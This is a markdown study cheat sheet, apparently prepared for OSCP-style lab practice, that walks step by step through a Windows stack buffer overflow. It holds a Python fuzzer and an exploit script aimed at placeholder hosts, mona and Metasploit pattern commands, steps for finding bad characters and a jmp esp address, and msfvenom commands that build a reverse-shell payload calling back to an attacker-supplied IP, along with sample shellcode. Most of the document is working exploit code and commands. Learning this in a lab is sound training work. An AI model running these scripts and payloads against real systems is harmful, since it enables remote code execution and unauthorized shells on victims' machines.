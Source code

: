 # BufferOverflow

## Registers

### EIP

**Extended Instruction Pointer**
Register for the next command, e.g. jump back address. If you can overwrite the EIP you can control where to jump next

### ESP
**Extended Stack Pointer**
Register contains the value of the last address which was pushed to the stack. ESP ist the top point of the stack. There we can address our shellcode.

### EBP
**Extended Base Stack Pointer**
Register contains the first address of a stack. This one is dynamic and had to be definded. 

## nasm

Get opcode: 

```console
$ locate nasm_shell.rb

$ /usr/shares/metasploit-framework/tools/exploit/nasm_shell.rb
>>> jmp esp
00000000  FFE4		jmp esp
```

## Mona

```console
Set up working directory:
!mona config -set workingfolder c:\mona\%p

Find offset:
!mona findmsp -distance 600
- distance lenght of payload

Create bytearray:
!mona bytearray -b "\x00"
-b "bad chars"

Compare bytearray with bytes in stack
!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP address>

Find jump esp
!mona jmp -r esp -cpb "<all bad chars>"
```

## Fuzzing

Make note of the largest number of bytes

```python
#!/usr/bin/env python3
import socket, time, sys

ip = "MACHINE_IP"
port = 1337
timeout = 5
prefix = "OVERFLOW1 "
string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

## Crash Replication and Controlling EIP

```python
#!/usr/bin/env python3
import socket

ip = "MACHINE_IP"
port = 1337
prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Create a cyclic pattern 400 bytes longer than the crash bytes 

```console
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600

```

Copy that string to **payload**
Run the python script and crash binary again.
Check the EIP offset:

	- with mona `!mona findmsp -distance 600`
	or
	- with metasploit `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP adress>`

Set the offset in python script and change payload to "" and change `retn` to `BBBB`
Crash the server again, the EIP register should now show 4 B's -> `42424242`

## Finding bad chars

Generate a bytearray using mona (excluding \x00): `!mona bytearray -b "\x00"`

Now generate a string which is identical to the bytearray with python (excluding \x00)

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

Update exploit script **payload** with string generated from the above python script.
Crash binary again and check with mona for bad chars: `!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP address>`

Check one after one. 
Generate a new byte array with mona e.g. `!mona bytearray -b "\x00\xa2` and remove "\xa2" from payload.
Crash binary again and compare the bytearray with esp address till message `Unmodified` appears.

## Finding jmp point

Run mona `!mona jmp -r esp -cpb "<all bad chars>"`
Choose an address and update exploit.py with the address at var `retn`
Address must be backwards! (little endian)
e.g. \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit

## Generate payload

```console
$ msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "<all bad chars>" -f c

With encoding
$ msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "<all bad chars>" -f c x86/shikata_ga_nai
```

Copy generated C string without semicolon to exploit.py under payload

```
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
...
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
```

## Prepend NOPs

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

`padding = "\x90" * 16`

## Exploit

Run crash again to get a reverse shell

Opt:
Set breakpoint to jmp point address and go steps further to watch NOPs and decoding the payload.